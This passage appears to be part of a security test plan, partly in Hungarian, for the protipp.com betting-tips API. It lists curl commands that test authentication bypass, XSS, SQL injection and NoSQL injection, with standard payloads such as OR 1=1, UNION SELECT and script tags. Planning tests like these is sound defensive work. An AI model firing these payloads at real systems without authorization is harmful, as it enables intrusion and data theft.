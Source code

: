 #### **C) Authentication Bypass**
```bash
# 1. Direct URL access
curl https://api.protipp.com/admin/dashboard

# 2. Role escalation
curl -H "Authorization: Bearer user-token" https://api.protipp.com/admin/users

# 3. Permission bypass
curl -H "Authorization: Bearer free-user-token" https://api.protipp.com/premium/analytics
```

### **2. Input Validation Tesztelés**

#### **A) XSS (Cross-Site Scripting)**
```bash
# 1. Reflected XSS
curl -X POST https://api.protipp.com/search \
  -H "Content-Type: application/json" \
  -d '{"query": "<script>alert(\"XSS\")</script>"}'

# 2. Stored XSS
curl -X POST https://api.protipp.com/bets \
  -H "Content-Type: application/json" \
  -d '{"notes": "<img src=x onerror=alert(\"XSS\")>"}'

# 3. DOM-based XSS
curl "https://api.protipp.com/profile?name=<script>alert('XSS')</script>"
```

#### **B) SQL Injection**
```bash
# 1. Basic SQL injection
curl -X POST https://api.protipp.com/login \
  -H "Content-Type: application/json" \
  -d '{"email": "admin@test.com", "password": "1'\'' OR 1=1 --"}'

# 2. Union-based injection
curl -X GET "https://api.protipp.com/bets?id=1 UNION SELECT * FROM users"

# 3. Time-based blind injection
curl -X GET "https://api.protipp.com/bets?id=1; WAITFOR DELAY '\''00:00:05'\''"
```

#### **C) NoSQL Injection**
```bash
# 1. MongoDB injection
curl -X POST https://api.protipp.com/search \
  -H "Content-Type: application/json" \
  -d '{"filter": {"$where": "this.password == this.username"}}'

# 2. Operator injection
curl -X POST https://api.protipp.com/bets \
  -H "Content-Type: application/json" \
  -d '{"odds": {"$gt": 0}}'
```
